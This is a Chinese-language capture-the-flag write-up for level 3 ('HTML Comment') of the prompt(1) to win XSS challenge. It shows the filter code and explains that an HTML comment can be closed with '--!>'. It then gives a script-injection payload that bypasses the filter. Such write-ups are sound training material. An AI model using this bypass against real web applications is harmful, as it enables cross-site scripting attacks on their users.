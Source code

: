 ## [[prompt(1) to win](http://prompt.ml)] [[Level 3 - HTML Comment](http://prompt.ml/3)] [[解题报告](http://exp-blog.com/2019/03/18/pid-3631/)]

------

## 题目

```javascript
function escape(input) {
    // filter potential comment end delimiters
    input = input.replace(/->/g, '_');

    // comment the input to avoid script execution
    return '<!-- ' + input + ' -->';
}
```

------

## 解题报告

正则把 `->` 过略了，导致我们无法闭合注释。

但是 HTML 注释还有另一种闭合方式：`<!--  xxxxx  --!>`

因此构造这样的 payload 即可实现绕过：`--!><script>prompt(1)</script>`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2003%20-%20HTML%20Comment/imgs/01.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
